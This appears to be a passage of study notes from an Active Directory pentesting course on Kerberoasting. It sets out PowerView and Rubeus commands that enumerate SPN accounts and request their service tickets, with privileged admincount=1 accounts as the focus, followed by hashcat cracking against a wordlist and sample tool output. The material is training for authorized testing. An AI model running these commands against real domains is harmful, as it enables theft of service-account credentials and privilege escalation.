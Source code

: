 #### Cracking the Hash with Hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt  
```

>If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.
## Automated / Tool Based Route
#### Using PowerView to Enumerate and target SPN Accounts
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname,serviceprincipalname # list all users with SPNs

# Using PowerView to Target a Specific User
Get-DomainUser -Identity <USER-SVC> | Get-DomainSPNTicket -Format Hashcat | Select-Object -ExpandProperty hash 
  # -ExpandProperty it will write all the output line

# Exporting All Tickets to a CSV File
Get-DomainUser -Identity <USER-SVC> | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

cat .\ilfreight_tgs.csv # Viewing the Contents of the .CSV File
```
#### Using Rubeus
```powershell
.\Rubeus.exe
```
the tool has a vast number of options for interacting with Kerberos, most of which are out of the scope of this module and will be covered in-depth in later modules on advanced Kerberos attacks
#### Check  the APNs Acoounts 
```powershell
.\Rubeus.exe kerberoast /stats
# [*] Total kerberoastable users : 9
#  | RC4_HMAC_DEFAULT                                 | 7     
#  | AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 2     

# | Password Last Set Year | Count 
# ---------------------------------
# | 2022                   | 9     
```
- From the output we can see that there are 9 Kerberoastable users 7 of which support RC4 encryption for ticket requests and 2 of which support AES 128/256
- all 9 accounts had their password set this year 2022 
> if we saw any SPN accounts with their passwords set 5 or more years ago they could have a weak password that was set and never changed when the organization was less mature.

#### Request the TGS

```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap # for privileged accounts
.\Rubeus.exe kerberoast /user:<USER> /nowrap # for specific user
```
`/nowrap` outputs the hash in one line easily **copied down** for offline cracking using Hashcat
**admincount=1** is an AD LDAP attribute marking accounts currently or formerly in ==privileged groups and protected by AdminSDHolder.== These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. 
## A Note on Encryption Types
